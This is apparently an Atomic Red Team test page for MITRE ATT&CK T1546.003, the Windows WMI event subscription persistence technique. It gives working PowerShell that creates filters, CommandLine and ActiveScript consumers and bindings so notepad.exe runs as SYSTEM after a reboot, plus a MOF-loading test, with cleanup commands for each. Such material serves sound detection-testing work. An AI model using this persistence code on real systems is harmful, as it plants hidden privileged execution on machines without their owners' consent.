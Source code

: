 ```yaml
---
tags: [T1546_003, atomic_test]
filename: "[[T1546.003 - Event Triggered Execution- Windows Management Instrumentation Event Subscription]]"
---
```

# T1546.003 - Event Triggered Execution: Windows Management Instrumentation Event Subscription

## Atomic Test #1 - Persistence via WMI Event Subscription - CommandLineEventConsumer
Run from an administrator powershell window. After running, reboot the victim machine.
After it has been online for 4 minutes you should see notepad.exe running as SYSTEM.

Code references

https://gist.github.com/mattifestation/7fe1df7ca2f08cbfa3d067def00c01af

https://github.com/EmpireProject/Empire/blob/master/data/module_source/persistence/Persistence.psm1#L545

**Supported Platforms:** Windows


**auto_generated_guid:** 3c64f177-28e2-49eb-a799-d767b24dd1e0






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$FilterArgs = @{name='AtomicRedTeam-WMIPersistence-CommandLineEventConsumer-Example';
                EventNameSpace='root\CimV2';
                QueryLanguage="WQL";
                Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"};
$Filter=New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs

$ConsumerArgs = @{name='AtomicRedTeam-WMIPersistence-CommandLineEventConsumer-Example';
                CommandLineTemplate="$($Env:SystemRoot)\System32\notepad.exe";}
$Consumer=New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $ConsumerArgs

$FilterToConsumerArgs = @{
Filter = [Ref] $Filter;
Consumer = [Ref] $Consumer;
}
$FilterToConsumerBinding = New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property $FilterToConsumerArgs
```

#### Cleanup Commands:
```powershell
$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class CommandLineEventConsumer -Filter "Name = 'AtomicRedTeam-WMIPersistence-CommandLineEventConsumer-Example'"
$EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'AtomicRedTeam-WMIPersistence-CommandLineEventConsumer-Example'"
$FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding" -ErrorAction SilentlyContinue
$FilterConsumerBindingToCleanup | Remove-WmiObject
$EventConsumerToCleanup | Remove-WmiObject
$EventFilterToCleanup | Remove-WmiObject
```





<br/>
<br/>

## Atomic Test #2 - Persistence via WMI Event Subscription - ActiveScriptEventConsumer
Run from an administrator powershell window. After running, reboot the victim machine.
After it has been online for 4 minutes you should see notepad.exe running as SYSTEM.

Code references

https://gist.github.com/mgreen27/ef726db0baac5623dc7f76bfa0fc494c

**Supported Platforms:** Windows


**auto_generated_guid:** fecd0dfd-fb55-45fa-a10b-6250272d0832






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$FilterArgs = @{name='AtomicRedTeam-WMIPersistence-ActiveScriptEventConsumer-Example';
                EventNameSpace='root\CimV2';
                QueryLanguage="WQL";
                Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"};
$Filter=Set-WmiInstance -Class __EventFilter -Namespace "root\subscription" -Arguments $FilterArgs

$ConsumerArgs = @{name='AtomicRedTeam-WMIPersistence-ActiveScriptEventConsumer-Example';
                ScriptingEngine='VBScript';
                ScriptText='
                Set objws = CreateObject("Wscript.Shell")
                objws.Run "notepad.exe", 0, True
                '}
$Consumer=Set-WmiInstance -Namespace "root\subscription" -Class ActiveScriptEventConsumer -Arguments $ConsumerArgs

$FilterToConsumerArgs = @{
Filter = $Filter;
Consumer = $Consumer;
}
$FilterToConsumerBinding = Set-WmiInstance -Namespace 'root/subscription' -Class '__FilterToConsumerBinding' -Arguments $FilterToConsumerArgs
```

#### Cleanup Commands:
```powershell
$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class ActiveScriptEventConsumer -Filter "Name = 'AtomicRedTeam-WMIPersistence-ActiveScriptEventConsumer-Example'"
$EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'AtomicRedTeam-WMIPersistence-ActiveScriptEventConsumer-Example'"
$FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding" -ErrorAction SilentlyContinue
$FilterConsumerBindingToCleanup | Remove-WmiObject
$EventConsumerToCleanup | Remove-WmiObject
$EventFilterToCleanup | Remove-WmiObject
```





<br/>
<br/>

## Atomic Test #3 - Windows MOFComp.exe Load MOF File
The following Atomic will utilize MOFComp.exe to load a local MOF file.
The Managed Object Format (MOF) compiler parses a file containing MOF statements and adds the classes and class instances defined in the file to the WMI repository. 
To query for the class:  gwmi __eventfilter -namespace root\subscription
A successful execution will add the class to WMI root namespace.
Reference: https://pentestlab.blog/2020/01/21/persistence-wmi-event-subscription/ and https://thedfirreport.com/2022/07/11/select-xmrig-from-sqlserver/.

**Supported Platforms:** Windows


**auto_generated_guid:** 29786d7e-8916-4de6-9c55-be7b093b2706





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| mofcomp_path | Location of mofcomp.exe | string | c:&#92;windows&#92;system32&#92;wbem&#92;mofcomp.exe|
| mof_file | Local location MOF file | string | PathToAtomicsFolder&#92;T1546.003&#92;src&#92;T1546.003.mof|


#### Attack Commands: Run with `powershell`! 


```powershell
#{mofcomp_path} "#{mof_file}"
```

#### Cleanup Commands:
```powershell
$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class CommandLineEventConsumer -Filter "Name = 'AtomicRedTeam_consumer'"
$EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'AtomicRedTeam_filter'"
$FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding" -ErrorAction SilentlyContinue
$FilterConsumerBindingToCleanup | Remove-WmiObject
$EventConsumerToCleanup | Remove-WmiObject
$EventFilterToCleanup | Remove-WmiObject
```



#### Dependencies:  Run with `powershell`!
##### Description: MofComp.exe must exist on disk at specified location (#{mofcomp_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{mofcomp_path}") { exit 0} else { exit 1}
```
##### Get Prereq Commands:
```powershell
Validate MOFComp.exe is on disk somewhere and update input argument.
```
##### Description: MofComp.exe must exist on disk at specified location (#{mof_file})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{mof_file}") { exit 0} else { exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{mof_file}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.003/src/T1546.003.mof" -OutFile "#{mof_file}"
```




<br/>
